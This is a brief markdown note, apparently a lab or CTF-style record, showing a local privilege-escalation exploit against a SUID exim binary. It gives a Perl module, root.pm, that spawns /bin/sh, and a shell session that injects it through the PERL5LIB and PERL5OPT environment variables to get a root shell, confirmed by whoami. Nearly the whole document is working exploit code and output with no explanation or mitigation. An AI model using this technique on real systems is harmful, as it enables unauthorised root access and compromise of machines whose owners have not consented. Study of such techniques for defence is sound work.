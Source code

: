 
https://gist.github.com/suryadana/ecab495f9e431b8179f67ddcd32a265a

found suid, using:

root.pm
```perl
package root;
use strict;
use warnings;

system("/bin/sh");
```

```sh
user@debian:~$ nano /tmp/root.pm
user@debian:~$ PERL5LIB=/tmp PERL5OPT=-Mroot /usr/sbin/exim -ps
sh-4.1# whoami
root
sh-4.1# exit
```
